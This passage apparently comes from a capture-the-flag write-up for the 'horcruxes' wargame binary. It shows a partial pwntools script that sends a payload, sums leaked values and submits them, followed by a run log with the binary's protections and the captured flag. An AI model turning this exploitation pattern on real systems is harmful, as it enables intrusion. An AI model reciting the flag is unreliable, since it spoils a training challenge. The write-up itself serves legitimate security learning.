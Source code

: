 ```python

r.recvuntil(':')
r.sendline('1')
r.recvuntil(': ')
r.sendline(payload)

sum = 0
for i in range(ord('A'),ord('H')):
	r.recvuntil('+')
	sum+= int(r.recvuntil(')')[:-1])
r.recvuntil(':')
r.sendline('1')
r.recvuntil(': ')
r.sendline(str(sum))
r.interactive()
```

result:
```bash
horcruxes@prowl:/tmp/junhor$ python e.py
[*] '/home/horcruxes/horcruxes'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x809f000)
[+] Opening connection to 0 on port 9032: Done
[*] Switching to interactive mode
Magic_spell_1s_4vad4_K3daVr4!

[*] Got EOF while reading in interactive
```
